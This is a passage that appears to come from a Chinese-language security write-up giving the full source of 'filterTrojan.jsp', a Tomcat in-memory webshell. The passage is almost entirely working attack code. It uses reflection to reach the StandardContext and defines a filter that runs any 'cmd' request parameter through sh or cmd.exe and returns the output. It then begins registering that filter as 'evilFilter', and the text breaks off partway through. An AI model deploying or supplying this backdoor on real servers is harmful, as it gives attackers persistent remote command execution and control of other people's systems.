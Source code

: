 完整代码：

```jsp
// filterTrojan.jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.core.ApplicationContextFacade" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%
  Field appContextField = ApplicationContextFacade.class.getDeclaredField("context");
  appContextField.setAccessible(true);
  Field standardContextField = ApplicationContext.class.getDeclaredField("context");
  standardContextField.setAccessible(true);

  ServletContext servletContext = request.getSession().getServletContext();
  ApplicationContext applicationContext = (ApplicationContext) appContextField.get(servletContext);
  StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);

  Filter filter = new Filter() {
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
      
    }

    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws ServletException, IOException {
      if (request.getParameter("cmd") != null) {
        boolean isLinux = true;
        String osTyp = System.getProperty("os.name");
        if (osTyp != null && osTyp.toLowerCase().contains("win")) {
          isLinux = false;
        }
        String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};
        InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
        Scanner s = new Scanner(in).useDelimiter("\\A");
        String output = s.hasNext() ? s.next() : "";
        response.getWriter().write(output);
        response.getWriter().flush();
      }
      chain.doFilter(request, response);
    }

    @Override
    public void destroy() {

    }

  };
  FilterDef filterDef = new FilterDef();
  filterDef.setFilter(filter);
  filterDef.setFilterName("evilFilter");
```